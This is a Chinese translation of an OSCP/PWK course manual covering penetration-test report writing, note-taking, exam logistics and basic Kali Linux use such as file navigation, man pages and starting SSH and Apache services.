考虑评估的目标。你打算完成什么？你在报告中是否希望表达一个单一的、具体的声明？许多缺乏经验的渗透测试人员容易陷入评估的技术方面和完成这些技术所需的技能中，但渗透测试绝不是一个单纯炫耀的机会。在开始撰写报告时，请牢记最初的目标。

组织你的内容，构建一份最能引起读者共鸣的报告。我们强烈建议在开始之前写一个大纲。你可以通过创建章节标题，而不包含实际内容或解释，快速轻松地做到这一点。这将帮助你避免重复自己或遗漏关键信息。它还可以帮助你更容易地克服令人恐惧的“作家 blocks”。

### 1.8.2 考虑受众

思考谁将阅读并采取行动中你包含在报告中的信息。你的受众希望从中了解什么？他们是谁？在大多数情况下，拥有不同技术水平的人会阅读你的报告。尝试编写能满足报告每个潜在读者的内容。实际上，这意味着按照不同受众的需求将报告分章节撰写。

让我们花一点时间更详细地谈谈受众。

你可能预计公司的高级管理人员会阅读报告的某些部分。在大多数情况下，这些高管没有时间或意愿去阅读攻击的高度技术细节。因此，大多数报告以执行摘要开头。执行摘要应该是一个简短的（不超过两页）高层解释，说明结果和客户的总体安全态势。由于这很可能是他们唯一阅读的部分，请确保将此部分的语言针对高管进行定制。

还将有一支更具技术专长的团队会更详细地阅读你的报告。报告的其余部分应迎合他们的需求，并将包括你在目标网络上施加破坏的所有血腥细节。

### 1.8.3 考虑包含什么

更具体地说，思考**不要**包含什么是有用的。请记住，你的读者希望解决你发现的问题，因此你包含的所有内容都应该是相关且有意义的。一份充斥着过多旁支或无关信息的冗长报告只会使你的受众难以阅读和理解。不要仅仅为了让报告看起来更长而包含填充材料。

以下是关于应包含什么和应排除什么的四个快速提示：

1. **不要**在报告中包含一页又一页的工具输出，除非绝对相关。考虑一下 `Nmap` 的输出。你没有理由在报告中包含输出的每一行，因为它不会增加任何价值。如果你有一个想要表达的论点，例如公开可访问主机上暴露的 SNMP 服务数量非常高，那么使用 `-oG` 标志并仅 `grep` 出开放 SNMP 端口的那些主机。
2. 明智地利用屏幕截图。这与你添加到报告中的其他内容适用相同的规则。使用屏幕截图来表达一个观点，而不仅仅是展示炫酷的 `meterpreter` 输出。例如，假设你在一个 Linux 主机上获得了 root 权限。与其显示 15 张各种仅 root 用户可访问的目录列表的屏幕截图，只需包含一张 `whoami` 命令输出的屏幕截图即可。技术娴熟的读者可能只需要这一项就能理解你取得了什么成就。
3. 将额外材料作为补充文档包含在内。如果你有会增加页数但不会引起所有受众兴趣的内容，考虑在报告之外提供额外的补充文档。需要此信息的读者仍可以检查补充文档，而报告的质量不会受损。

⁸ https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/

⁹ (Offensive Security, 2019), https://www.offensive-security.com/reports/sample-penetration-testing-report.pdf


## 1.8.4 考虑呈现方式

内容的呈现与内容本身同样至关重要。最重要的是，熟练掌握语言是绝对关键的。虽然我们理解对于许多学生而言，英语并非他们的母语，但仍然建议尽量撰写连贯、流畅且逻辑清晰的句子。在这种情况下，重要的是要“更加努力”，尽最大努力，专注于阐述简单易懂的观点。

此外，你可能还需要考虑以下几点：

1. 保持一致性。注意间距、标题样式、字体选择等细节的一致性。排版混乱和不一致的段落或标题会显得不专业且草率。
2. 拼写检查，拼写检查，拼写检查！这一点不言自明。Their（它们的）!= There（那里），Your（你的）!= You're（你是）

这些建议应能让你对如何撰写一份外观专业、逻辑连贯且能清晰传达意图的报告有一个大致的了解。归根结底，报告是你交付给客户的成果。请确保它专业且恰当地代表了你和你自己的工作。

## 1.8.5 PWK 报告

在完成课程实验指南和视频后，你将在我们内部的 VPN 实验网络中进行一次完整的渗透测试。针对这次练习性渗透测试并非强制要求撰写报告，但这可能对你有益，因为这是练习一项你在职业生涯中将反复使用的重要技能的绝佳方式。

如果你选择撰写并提交实验报告，除非另有说明，你需要在整个实验指南中记录课程练习。你可以将这些内容作为附录添加到你完成认证考试后提交的最终报告中。


最终文档应作为正式的渗透测试报告提交。你的报告应包括执行摘要，以及所有机器的详细综述（不包括你专用的客户机器）。有关课程报告要求的详细信息（包括模板和示例报告）可在我们的支持网站上获取。

计划在通过 OSCP 认证考试之前申请 CPE（持续专业教育）学分的学生，需要撰写并提交内部 VPN 实验网络的报告，并将课程练习作为附录包含在内。

## 1.8.6 做笔记

信息是关键，因此记录并保持笔记的有序至关重要。这不仅适用于 PWK 课程和相应的 OSCP 考试，甚至适用于渗透测试这一整体领域。

笔记的详细程度由你自己决定。我们建议一开始就记录**所有**内容

### 1.8.6.2 笔记工具

你可以选择多种笔记工具，例如 `OneNote`（Windows/macOS）、`DayOne`（macOS）或 `Joplin`（macOS/Windows/Linux）等。你也可以选择使用类似 `MDwiki` 的工具，这是一种基于 Markdown 的 Wiki，允许你用 Markdown 编写并渲染输出为 HTML。

无论你喜欢哪种工具，收集原始输出（RAW output）的最佳方法是设置某种类型的日志记录，然后忽略它（直到需要为止）。这样，输出会自动保存，你不必担心记得回头查看笔记。将终端显示的所有输出保存下来有几种方法，包括：

- `script`: 执行后，所有输出（包括 bash 的颜色代码和退格符）都会保存到一个文件中，随时可以重放。
- `terminator`: 一种替代的终端仿真器，具有各种功能和插件，如 `Logger`（将所有输出保存为文本文件）和 `TerminalShot`（在终端内截图）。

注意：管道输出（`>`）或使用 `tee` 也是一个选项，但你必须为每条命令使用它们，因此你需要记得每次都要运行它们。

为了处理渗透测试期间收集的大量信息，我们喜欢使用一种多功能笔记应用来初步记录所有发现。使用此类应用有助于在数字上和心智上组织数据。一旦渗透测试结束，我们就可以使用这些临时文档来编制完整报告。

只要输出清晰易读，使用哪种程序进行临时文档记录并不重要。习惯记录你的工作成果和发现。这是以专业方式完成工作的唯一途径！

### 1.8.6.3 备份

世界上有两种人：定期备份文档的人，以及希望当初自己备份了文档的人。备份通常被视为保险。你永远不知道什么时候需要它，直到那一刻真正到来！作为一般原则，我们建议你定期备份文档。将备份保存在安全的地方。你肯定不希望它们出现在公共 git 仓库或云中！

文档不应是你唯一备份的东西。确保你备份 Kali 虚拟机上的重要文件，如有必要请拍摄适当的快照，等等。最好总是谨慎行事。

## 1.9 关于 OSCP 考试

OSCP 认证考试模拟了一个包含少量易受攻击机器的私有 VPN 实时网络。要通过考试，你必须获得 70 分。权限获取（有限访问）以及完全系统控制都会获得分数。在考试期间，该环境完全专属于你，你有 23 小时 45 分钟的时间完成考试。

每个目标机器的具体说明将位于你的考试控制面板中，该面板仅在你开始考试后对你开放。你的考试包将包含 VPN 连接包和额外说明，其中含有你可以用来访问考试控制面板的唯一 URL。

为了确保我们认证考试的完整性，考试将在远程监考下进行。你被要求在考试开始时间前 15 分钟到场，以进行身份验证和其他考前任务。请在安排考试之前仔细阅读我们的监考常见问题解答（FAQ）。

考试结束后，你还将有 24 小时的时间整理考试报告并记录你的发现。你将根据考试报告的质量和内容的详细程度进行评估，因此请尽可能多地包含详细信息，并确保你的发现是可以复现的。

另外，请注意，考试提交的接受是一个手动过程，因此在收到我们关于已收到你文件的正式通知之前，可能需要一些时间。

一旦你的考试文件被接受，你的考试将进入评分阶段，你将在 10 个工作日内收到成绩。如果你取得了及格分数，我们将要求你确认你的实际地址，以便我们邮寄你的证书。如果你未能通过，我们将通知你，你可以使用相应的链接购买认证补考资格。

我们强烈建议你谨慎安排考试，选择一个 36 小时的时间窗口，在此期间你可以确保没有外界干扰或承诺。此外，请注意考试名额是按先到先得的原则处理的，因此最好尽早安排考试，以确保你首选的日期有空位。有关考试的更多信息，我们鼓励你花一些时间浏览 OSCP 考试指南。

## 1.9.1 Metasploit 的使用 - 实验 vs 考试

我们鼓励你在实验中使用 `Metasploit`。`Metasploit` 是一个优秀的工具，你应该学习它提供的所有功能。虽然 `Metasploit` 在 OSCP 认证考试中的使用受到限制，但我们鼓励你在不限制学习过程时不给自己设定任意限制。有关 `Metasploit` 使用方法的更多信息可在 OSCP 考试指南中找到。

## 1.10 总结

在本模块中，我们讨论了充分利用 PWK 课程和实验所需的重要信息。此外，我们还涵盖了报告写作的基础知识以及如何参加最终的 OSCP 考试。

**脚注：**

- (OneNote, 2019), https://www.onenote.com
- (Day One, 2019), http://dayoneapp.com
- (laurent22, 2019), https://github.com/laurent22/joplin
- (MDwiki, 2019), http://dynalon.github.io/mdwiki/#index.md
- (Offensive Security, 2019), https://www.offensive-security.com/faq/?exam-proc
- (Offensive Security, 2019), https://support.offensive-security.com/oscp-exam-guide/

祝你在 PWK 学习之旅中好运连连，希望你能享受即将面对的新挑战。

## 2. 熟悉 Kali Linux

Kali Linux 由 Offensive Security 开发、资助并维护。它是一个基于 Debian 的 Linux 发行版，专为高级渗透测试和安全审计而设计。Kali 包含数百种工具，适用于各种信息安全任务，如渗透测试、安全研究、计算机取证和逆向工程等。

操作系统中打包的所有程序都经过评估，以确保其适用性和有效性。其中包括用于网络渗透测试的 `Metasploit`、用于端口和漏洞扫描的 `Nmap`、用于监控网络流量的 `Wireshark`，以及用于测试无线网络安全的 `Aircrack-ng` 等。

本模块旨在提供一个基线，并为所有技能水平的用户为后续模块做好准备。我们将为初学者探索一些技巧，并回顾一些更高级的用户可能会欣赏的标准。无论技能水平如何，我们都建议在本模块上投入适当的专注度。正如亚伯拉罕·林肯据说所言：“给我六个小时砍倒一棵树，我会花前四个小时磨斧头”。

此外，鼓励所有技能水平的用户查看 Kali 培训站点上的免费在线培训。¹⁷ 该站点包括 Kali *Linux Revealed* 书籍、旨在测试你理解程度的练习、专属支持论坛等。这些免费资源为所有技能水平的用户提供了宝贵的见解，是本课程所提供培训的绝佳伴侣。

### 2.1 启动 Kali Linux

首先，下载官方 Kali Linux 64 位 (`amd64`) VMware 虚拟机 (VM)¹⁸ 和你打算使用的 VMware 软件。VMware 为 `VMware WorkStation Pro`¹⁹ 和 Mac 版的 `VMware Fusion`²⁰ 提供免费的试用版。使用这些商业版本的好处是能够创建快照，以便在需要将虚拟机重置为初始干净状态时恢复。VMware 还提供了其软件的免费版本，即 `VMware WorkStation Player`。²¹ 但是，快照功能在免费版本中不可用。

我们将使用 64 位 (`amd64`) Kali Linux 虚拟机，因此为了获得最佳效果并与实验指南保持一致，建议你也使用它。不要偏离此标准构建，因为这可能会导致工作环境与课程培训材料不一致。

你可以在 Offensive Security 支持网站上找到最新的 Kali Linux 虚拟机镜像以及验证下载归档文件的最新说明。²² 作为安全专业人员，你应该始终花时间妥善验证你下载的每个文件，然后再使用它。如果不这样做，可能会让你和你的客户面临不必要的风险。

要使用 Kali Linux 虚拟机，我们首先需要解压归档文件并使用 VMware 打开 `*.vmx` 文件。如果提示该选项，请选择“我复制了它”，以指示虚拟机生成新的虚拟 MAC 地址并避免潜在的冲突。

虚拟机的默认凭据为：

- 用户名：**kali**
- 密码：**kali**

> *在首次启动时，使用终端通过 `passwd` 命令更改所有默认密码非常重要。我们正与其他学生一起连接在线实验室，使用默认密码几乎可以保证会被恶意戏弄！*

要更改密码，点击终端图标并输入内置的 `passwd` 命令：


```
kali@kali:~$ **passwd**
Changing password for kali.
(current) UNIX password:
Enter new UNIX password:
Retype new UNIX password:
passwd: password updated successfully

*Listing 1 - 更改 kali 用户的默认密码*
```

Kali Linux 虚拟机将包含两个默认用户：“root” 和 “kali”。我们将使用 kali 用户账户。虽然登录 root 用户可能很有诱惑力，但不建议这样做。root 用户拥有不受限制的特权，一条错误的命令可能会损坏我们的系统。更糟糕的是，如果攻击者利用以 root 身份运行的进程，他们将完全控制我们的机器。

许多命令需要提升权限才能运行，幸运的是，`sudo` 命令可以解决这个问题。我们输入 `sudo` 后面跟我们要运行的命令，并在提示时提供密码。

```
kali@kali:~$ **whoami**
kali

kali@kali:~$ **sudo whoami**
[sudo] password for kali:
**root**

*Listing 2 - 使用 sudo 以 root 身份运行命令*
```

最后，探索 VMware 的快照功能，它允许我们将虚拟机恢复或重置为初始干净状态。如果出现问题，定期快照可以节省大量的时间和挫折感。

## 2.2 Kali 菜单

Kali Linux 菜单包含该发行版中许多工具的分类链接。这种结构有助于澄清每个工具的主要角色以及使用背景。

花一些时间浏览 Kali Linux 菜单，以帮助你熟悉可用工具及其类别。



图 3：Kali 菜单

## 2.3 Kali 文档

作为一个完整的操作系统，Kali Linux 提供许多我们在本课程中无法完全探索的功能和特性。然而，有几个官方的 Kali Linux 资源可用于进一步的研究和学习：

- Kali Linux 官方文档

- Kali Linux 支持论坛

- Kali Linux 工具站点²⁵

- Kali Linux 错误追踪器²⁶

- Kali Linux 培训²⁷

### 2.3.1 Kali Linux 官方文档

如名称所示，Kali Docs 网站²⁸ 是官方的 Kali Linux 文档库。该站点提供了最新的 Kali 文档，详细介绍了许多常见程序，应被视为 Kali Linux 故障排除和支持的第一站。

### 2.3.2 Kali Linux 支持论坛

故障排除和支持的第二站是 Kali Linux 支持论坛。²⁹ 在发帖之前，请阅读论坛规则和指南³⁰，因为不符合规定的帖子通常会被审核或被忽略。在创建新帖子之前，务必彻底搜索论坛中是否有之前发布的解决方案。

### 2.3.3 Kali Linux 工具站点

Kali 功能涵盖安全和取证领域各个利基市场的许多渗透测试工具。Kali Tools 站点³¹ 旨在列出所有工具并提供快速参考。可以跟踪工具版本与其上游源的关系。此外，还每个元包的信息也可用。元包提供了根据特定需求安装特定工具子集的灵活性，包括无线、Web 应用程序、取证、软件定义无线电等。

### 2.3.4 Kali Linux 错误追踪器

偶尔，某些工具可能会崩溃或产生意外结果。当这种情况发生时，在 Kali Linux 错误追踪器站点³² 上搜索给定的错误信息可能有助于确定该问题是否为错误，如果是，如何解决。用户也可以通过该站点报告错误来帮助社区。

### 2.3.5 Kali 培训站点

Kali Linux 培训³³ 站点托管官方的 Kali Linux 手册和培训课程。该免费站点基于 Kali Linux Revealed³⁴ 一书，并以 HTML 和 PDF 格式托管书籍内容。

**脚注：**

17. (Offensive Security, 2019), https://kali.training

18. (Offensive Security, 2019), https://support.offensive-security.com/#pwk-kali-vm.md

19. (VMware, 2019), https://www.vmware.com/products/workstation-pro.html

20. (VMware, 2019), https://www.vmware.com/products/fusion.html

21. (VMware, 2019), https://www.vmware.com/products/workstation-player-evaluation.html

22. (Offensive Security, 2019), https://support.offensive-security.com/#pwk-kali-vm.md

25. (Offensive Security, 2019), https://tools.kali.org

26. (Offensive Security, 2019), https://bugs.kali.org

27. (Offensive Security, 2019), https://kali.training

28. (Offensive Security, 2019), http://docs.kali.org

29. (Offensive Security, 2019), https://forums.kali.org

30. (Offensive Security, 2019), https://forums.kali.org/forumdisplay.php?fid=2&forums-rules-and-guidelines

31. (Offensive Security, 2019), https://tools.kali.org

32. (Offensive Security, 2019), https://bugs.kali.org

33. (Offensive Security, 2019), https://kali.training

34. (Offensive Security, 2019), https://kali.training

用于检验您对所学内容掌握程度的练习、支持论坛，以及其他更多资源。该网站包含大量有用的信息，以帮助用户更深入地了解 Kali Linux。

## 2.3.6 练习

*（这些练习不需要报告结果）*

- 1. 启动您的 Kali 操作系统，并将 kali 用户的密码更改为更安全的密码。

- 2. 花些时间熟悉一下 Kali Linux 菜单。

- 3. 使用 Kali Tools 网站，找到您最喜欢的工具并查阅其文档。如果没有特别喜欢的工具，可以任意选择一个。

## 2.4 在 Kali 中导航

### 2.4.1 Linux 文件系统

Kali Linux 遵循文件系统层次结构标准（FSH），[^35] 它为所有 Linux 用户提供了一个熟悉且通用的布局。您会发现以下目录最为常用：

- `/bin` - 基本程序（ls, cd, cat 等）

- `/sbin` - 系统程序（fdisk, mkfs, sysctl 等）

- `/etc` - 配置文件

- `/tmp` - 临时文件（通常在启动时删除）

- `/usr/bin` - 应用程序（apt, ncat, nmap 等）

- `/usr/share` - 应用程序支持文件和数据文件

还有许多其他目录，其中大多数您很少需要进入，但熟悉 Linux 文件系统布局将极大提高您的效率。

### 2.4.2 基本 Linux 命令

#### 2.4.2.1 手册页

接下来，让我们深入探讨 Kali Linux 的使用，并探索一些基本的 Linux 命令。

大多数用于 Linux 命令行的可执行程序都提供一份正式文档，通常称为*手册*或*手册页*（man pages）。[^36] 使用名为 `man` 的专用程序来查看这些页面。手册页通常包含名称、概要、命令用途的描述，以及相应的选项、参数或开关。让我们看一下 *ls* 命令的手册页：

```
kali@kali:~$  man  ls
```

*列表 3 - 探索 ls 命令的手册页*

[^35]: (Linux Foundation, 2016), https://wiki.linuxfoundation.org/fsb/fhs

[^36]: (Wikipedia, 2019), https://en.wikipedia.org/wiki/Man_page

手册页不仅包含关于用户命令的信息，还包含系统管理命令、编程接口等方面的文档。手册的内容被分为若干部分，编号如下：

| 章节 | 内容 |

| :--- | :--- |

| 1 | 用户命令 |

| 2 | 内核系统调用的编程接口 |

| 3 | C 库的编程接口 |

| 4 | 特殊文件，如设备节点和驱动程序 |


| 5 | 文件格式 |

| 6 | 游戏和娱乐，如屏幕保护程序 |

| 7 | 杂项 |

| 8 | 系统管理命令 |

*表 2 - 手册页的组织结构*

要确定合适的手册章节，只需执行关键字搜索即可。例如，假设我们想了解 `/etc/passwd` 文件格式的更多信息。在命令行输入 `man passwd` 将显示手册第 1 部分中关于 `passwd` 命令的信息（图 4），这并不是我们感兴趣的内容。



*图 4：请求 passwd 文件的手册条目*

然而，如果我们使用 `man` 的 `-k` 选项，就可以执行关键字搜索，如下所示：

```
kali@kali:~$ man -k passwd
chpasswd (8) - update group passwords in batch mode
chpasswd (8) - update passwords in batch mode
exim4_password (5) - Files in use by the Debian exim4 packages
exim4_password_client (5) - Files in use by the Debian exim4 packages
expect_mkpasswd (1) - generate new password, optionally apply it to a user
fgetpwent_r (3) - get passwd file entry reentrantly
getpwent_r (3) - get passwd file entry reentrantly
gpasswd (1) - administer /etc/group and /etc/gshadow
grub-mkpasswd-pbkdf2 (1) - generate hashed password for GRUB
htpasswd (1) - Manage user files for basic authentication
...
```


我们可以借助正则表达式进一步缩小搜索范围。[^37]

```
kali@kali:~$ man -k '^passwd$'
passwd (1) - change user password
passwd (1ssl) - compute password hashes
passwd (5) - the passwd file
```


在上面的命令中，正则表达式由脱字符（`^`）和美元符号（`$`）包围，以匹配整行并避免子字符串匹配。现在我们可以通过引用相应的章节来查看我们感兴趣的具体 `passwd` 手册页：

```
kali@kali:~$ man 5 passwd
```


手册页通常是查找特定命令文档的最快捷方式，因此请花些时间更详细地探索它们。

#### 2.4.2.2 apropos

使用 `apropos`[^38] 命令，我们可以根据关键字搜索手册页描述列表中的可能匹配项。虽然这种方法略显粗糙，但对于根据描述查找特定命令非常有帮助。让我们看一个例子。假设我们想要对硬盘进行分区，但记不起命令名称。我们可以通过对"partition"进行 `apropos` 搜索来找出答案。

```
kali@kali:~$ apropos partition
addpart (8) - tell the kernel about the existence of a partition
cfdisk (8) - display or manipulate a disk partition table
cgdisk (8) - Curses-based GUID partition table (GPT) manipulator
cgpt (1) - Utility to manipulate GPT partitions with Chromium OS ...
delPart (8) - tell the kernel to forget about a partition
extundelete (1) - utility to undelete files from an ext3 or ext4 partition.
fdisk (8) - manipulate disk partition table
fixparts (8) - MBR partition table repair utility
gdisk (8) - Interactive GUID partition table (GPT) manipulator
gparted (8) - GNOME Partition Editor for manipulating disk partitions.
...
```

> *列表 7 - 使用 `apropos` 查找描述中包含 'partition' 的命令*

请注意，`apropos` 似乎执行了与 `man -k` 相同的功能；事实上，它们是等效的。

#### 2.4.2.3 列出的文件

`ls` 命令会在屏幕上输出基本的文件列表。我们可以使用各种通配符来修改输出结果。`-a` 选项用于显示所有文件（包括隐藏文件），而 `-1` 选项将每个文件显示在一行中，这在自动化过程中非常有用。

```
kali@kali:~$ ls
Desktop Documents Downloads Music Pictures Public Templates Videos

kali@kali:~$ ls /etc/apache2/sites-available/*.conf
/etc/apache2/sites-available/000-default.conf
/etc/apache2/sites-available/default-ssl.conf

kali@kali:~$ ls -a1
.
..
.bash_history
.bashrc
.cache
.config
Desktop
Documents
...
```

> *列表 8 - 列出文件*

#### 2.4.2.4 移动位置

Linux 不使用 Windows 样式的驱动器字母。相反，所有文件、文件夹和设备都是根目录的子项，根目录用 "/" 字符表示。我们可以使用 `cd` 命令后跟路径来切换到指定目录。`pwd` 命令会打印当前目录（如果您迷路了这很有帮助），运行 `cd ~` 将返回主目录。

```
kali@kali:~$ cd /usr/share/metasploit-framework/

kali@kali:/usr/share/metasploit-framework$ pwd
/usr/share/metasploit-framework

kali@kali:/usr/share/metasploit-framework$ cd ~

kali@kali:~$ pwd
/home/kali
```

> *列表 9 - 在文件系统中移动*

#### 2.4.2.5 创建目录

`mkdir` 命令后跟目录名称可创建指定目录。目录名称可以包含空格，但由于我们将在命令行上花费大量时间，使用连字符或下划线代替空格可以为我们省去很多麻烦。这些字符将使自动补全（通过按 [Tab] 键执行）变得更加容易。

```
kali@kali:~$ mkdir notes

kali@kali:~$ cd notes/

kali@kali:~/notes$ mkdir module one

kali@kali:~/notes$ ls
module  one

kali@kali:~/notes$ rm -rf module/ one/

kali@kali:~/notes$ mkdir "module one"

kali@kali:~/notes$ cd module\ one/

kali@kali:~/notes/module one$
```

我们可以使用极其实用的 `mkdir -p` 一次创建多个目录，它还会创建任何所需的父目录。这可以与花括号扩展结合使用，以高效地创建目录结构，例如用于存储您的渗透测试笔记。在下面的示例中，我们正在创建一个名为 `test` 的目录，并在该目录内创建名为 `recon`、`exploit` 和 `report` 的三个子目录。

```
kali@kali:~$ mkdir -p test/{recon,exploit,report}

kali@kali:~$ ls -l test/
exploit
recon
report
```

### 2.4.3 在 Kali Linux 中查找文件


Kali Linux 中用于定位文件的三个最常见 Linux 命令包括 `find`、`locate` 和 `which`。这些实用程序有相似之处，但工作方式和返回数据的方式不同，因此可能适用于不同的情况。

### 2.4.3.1 which

`which` 命令[^39] 在 `$PATH` 环境变量中定义的目录中搜索给定的文件名。该变量包含 Kali 在发出未包含路径的命令时搜索的目录列表。如果找到匹配项，`which` 将返回文件的完整路径，如下所示：

```
kali@kali:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

kali@kali:~$ which sdb
/usr/bin/sdb
```

[^37]: 正则表达式参考

[^38]: (Wikipedia, 2019), https://en.wikipedia.org/wiki/Apropos

[^39]: (die.net, 2019), https://linux.die.net/man/1/which

### 2.4.3.2 locate

`locate` 命令[^40] 是在 Kali 中查找文件和目录位置的最快方法。为了提供更短的搜索时间，`locate` 会搜索一个名为 `locate.db` 的内置数据库，而不是整个硬盘本身。该数据库由 `cron` 调度程序定期自动更新。若要手动更新 `locate.db` 数据库，可以使用 `updatedb` 命令。

```bash
kali@kali:~$ sudo updatedb

kali@kali:~$ locate sbd.exe
/usr/share/windows-resources/sbd/sbd.exe
```

*Listing 13 - 探索 locate 命令*

### 2.4.3.3 find

`find` 命令[^41] 是这三个工具中最复杂且最灵活的搜索工具。掌握其语法有时可能具有挑战性，但其功能超出了普通的文件搜索范围。`find` 命令的基本用法如 Listing 14 所示，我们从根文件系统目录开始执行递归搜索，查找任何以字符“sbd”开头的文件。

```bash
kali@kali:~$ sudo find / -name sbd*
/usr/bin/sbd
/usr/share/doc/sbd
/usr/share/windows-resources/sbd
/usr/share/windows-resources/sbd/sbd.exe
/usr/share/windows-resources/sbd/sbdb.r.exe
/var/cache/apt/archives/sbd_1.37-1kali3_amd64.deb
/var/lib/dpkg/info/sbd.md5sums
/var/lib/dpkg/info/sbd.list
```

*Listing 14 - 探索 find 命令*

`find` 相对于 `locate` 的主要优势在于，它可以不仅仅通过名称来搜索文件和目录。使用 `find`，我们可以按文件年龄、大小、所有者、文件类型、时间戳、权限等进行搜索，还可以做更多操作。[^42]

### 2.4.3.4 Exercises

- 1. 使用 `man` 查看您喜欢的某个命令的手册页。
- 2. 使用 `man` 查找与文件压缩相关的关键词。
- 3. 使用 `which` 在您的 Kali 虚拟机上定位 `pwd` 命令。
- 4. 使用 `locate` 在您的 Kali 虚拟机上定位 `wce32.exe`。
- 5. 使用 `find` 识别任何在过去一天内被修改、*非* root 用户拥有且执行 `ls -l` 的文件（不是目录）。禁止链接/管道命令！

[^40]: (die.net, 2019), https://linux.die.net/man/1/locate

[^41]: (die.net, 2019), https://linux.die.net/man/1/find

[^42]: (Stack Exchange, 2015), https://unix.stackexchange.com/questions/60205/locate-vs-find-usage-pros-and-cons-of-each-other

# 2.5 管理 Kali Linux 服务

Kali Linux 是一个面向安全专业人士的专用 Linux 发行版。因此，它包含一些非标准特性。默认的 Kali 安装预装了多个服务，例如 SSH、HTTP、MySQL 等。因此，这些服务将在启动时加载，这会导致 Kali 默认暴露多个开放端口——出于安全原因，我们希望避免这种情况。Kali 通过更新其设置来防止网络服务在启动时运行，从而解决了这个问题。

Kali 还包含一种机制，可以对各种服务进行白名单和黑名单处理。以下部分将讨论其中一些服务，以及如何操作和管理它们。

## 2.5.1 SSH 服务

Secure Shell (SSH)[^43] 服务通常使用安全、加密的协议远程访问计算机。SSH 服务基于 TCP，默认监听 22 端口。要在 Kali 中启动 SSH 服务，我们运行带有 `start` 选项和随后的服务名称（本例中为 ssh）的 `systemctl` 命令：

```bash
kali@kali:~$ sudo systemctl start ssh
kali@kali:~$
```

*Listing 15 - 使用 systemctl 在 Kali 中启动 ssh 服务*

当命令成功完成时，它不会返回任何输出，但我们可以通过使用 `ss` 命令并将输出管道传递给 `grep` 以搜索输出中的 "sshd" 来验证 SSH 服务正在运行并监听 TCP 端口 22：

```bash
kali@kali:~$ sudo ss -antlp | grep sshd
LISTEN 0 128 ::122 :::* users:("sshd",pid=1343,fd=3)
LISTEN 0 128 :::22 :::* users:("sshd",pid=1343,fd=4)
```

*Listing 16 - 使用 ss 和 grep 确认 ssh 已启动并正在运行*

如果我们希望 SSH 服务在启动时自动启动（许多用户偏好如此），我们只需使用 `systemctl` 命令启用它即可。但是，请务必先更改默认密码！

```bash
kali@kali:~$ sudo systemctl enable ssh
Synchronizing state of ssh.service with SysV service script with /lib/systemd/systemd-sysv-install enable ssh
Executing: /lib/systemd/systemd-sysv-install enable ssh
Created symlink /etc/systemd/system/ssh.service → /lib/systemd/system/ssh.service.
```

*Listing 17 - 使用 systemctl 配置 ssh 在启动时运行*

我们可以使用 `systemctl` 在 Kali Linux 中启用和禁用大多数服务。

## 2.5.2 HTTP 服务

Apache HTTP 服务通常用于渗透测试，用于托管网站或为受害者机器提供下载文件的平台。HTTP 服务基于 TCP，默认监听 80 端口。要在 Kali 中启动 HTTP 服务，我们可以像启动 SSH 服务时那样使用 `systemctl`，只需将服务名称替换为 `apache2`。

```bash
kali@kali:~$ sudo systemctl start apache2
kali@kali:~$
```

*Listing 18 - 使用 systemctl 在 Kali 中启动 apache 服务*

与 SSH 服务一样，我们可以使用 `ss` 和 `grep` 命令验证 HTTP 服务正在运行并监听 TCP 端口 80。

```bash
kali@kali:~$ sudo ss -antlp | grep apache
LISTEN 0 128 :::80 :::* users:(("apache2",pid=1481,fd=4),("apache2",pid=1480,fd=4),("apache2",pid=1479,fd=4),("apache2",pid=1478,fd=4),("apache2",pid=1477,fd=4),("apache2",pid=1476,fd=4),("apache2",pid=1475,fd=4))
```

*Listing 19 - 使用 ss 和 grep 确认 apache 已启动并正在运行*


要在启动时让 HTTP 服务启动，就像对 SSH 服务那样，我们需要使用 `systemctl` 及其 `enable` 选项显式启用它：

```bash
kali@kali:~$ sudo systemctl enable apache2
Synchronizing state of apache2.service with SysV service script with /lib/systemd/system/sysv-install enable apache2
```

*Listing 20 - 使用 systemctl 启用 apache2 在启动时运行*

Kali Linux 中的大多数服务都通过其服务脚本或 init 脚本以类似 SSH 和 HTTP 的方式操作。要查看所有可用服务的表格，请运行带有 `list-unit-files` 选项的 `systemctl`：

```bash
kali@kali:~$ systemctl list-unit-files
```

| UNIT FILE | STATE |
| :--- | :--- |
| proc-sys-fs-binfmt_misc.automount | static |
| mount | generated |
| dev-hugepages.mount | static |
| dev-mqueue.mount | static |
| media-cdrom0.mount | generated |
| proc-sys-fs-binfmt_misc.mount | static |
| run-vmnolog-fuse.mount | disabled |
| sys-fs-fuse-connections.mount | static |
| sys-kernel-config.mount | static |
| sys-kernel-debug.mount | static |

*Listing 21 - 显示所有可用服务*

有关 Kali Linux 中服务管理的更多信息，包括 `systemctl` 的使用，请参阅 Kali Training 网站。[^44]

### 2.5.3 练习

（这些练习不需要报告）

[^44]: Offensive Security, 2019, https://kali.training/topic/managing-services/

- 1. 练习启动和停止各种 Kali 服务。
- 2. 启用 SSH 服务在系统启动时运行。

# 2.6 搜索、安装和移除工具

Kali VMware 映像包含渗透测试领域中最常用的工具。然而，在 VMware 映像中包含 Kali 仓库中存在的每一个工具是不切实际的。因此，我们需要讨论如何搜索、安装或移除工具。在本节中，我们将探索高级包工具 `APT` 工具集以及在对 Kali Linux 操作系统执行维护操作时有用的其他命令。

